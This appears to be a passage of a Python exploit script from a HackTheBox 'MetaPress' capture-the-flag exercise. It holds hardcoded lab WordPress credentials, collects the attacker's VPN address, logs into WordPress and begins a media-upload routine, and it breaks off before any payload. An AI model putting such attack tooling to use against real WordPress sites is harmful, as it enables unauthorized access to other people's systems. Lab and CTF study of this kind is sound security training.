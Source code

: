 ```py
rhost = "http://metapress.htb"

# metapress wordpress creds
username = 'manager'
password = 'partylikearockstar'

# Enable burp proxy
# session.proxies = {"http": "http://127.0.0.1:8080"}

# Get HackTheBox vpn ip from tun0 interface
try:
    htb_vpn_inf = 'tun0'
    lhost = ni.ifaddresses(htb_vpn_inf)[ni.AF_INET][0]['addr']
except ValueError as e:
    print("[!] tun0 not found!")
    exit(e)

# Login to wordpress and get auth session
def login_to_wordpress(url, username, password):

    # get the login page to extract the login form fields
    login_page = session.get(f"{url}/wp-login.php")
    soup = BeautifulSoup(login_page.content, 'html.parser')
    form = soup.find('form', {'id': 'loginform'})

    # extract the form fields
    action = form['action']
    inputs = form.find_all('input')
    data = {}
    for i in inputs:
        if i.has_attr('name'):
            data[i['name']] = i['value']

    # update the form fields with the credentials
    data['log'] = username
    data['pwd'] = password

    # submit the form
    response = session.post(action, data=data, allow_redirects=False)

    # check if the login was successful
    if "wordpress_logged_in" in response.headers["Set-Cookie"]:
        print('[+] Login successful!')
        return True
    else:
        print('[-] Login failed.')
        return False

# File upload function in wordpress "Media Library" 
def wp_media_library_upload(url, username, password, filename):

    # log in to WordPress
    login_success = login_to_wordpress(url=url, username=username, password=password)
    if not login_success:
        print("[-] Login failed.")
        return False

    # prepare the image data
    with open(filename, 'rb') as f:
        image_data = f.read()

    # Grab _wpnonce
    res = session.get(f"{url}/wp-admin/media-new.php")
```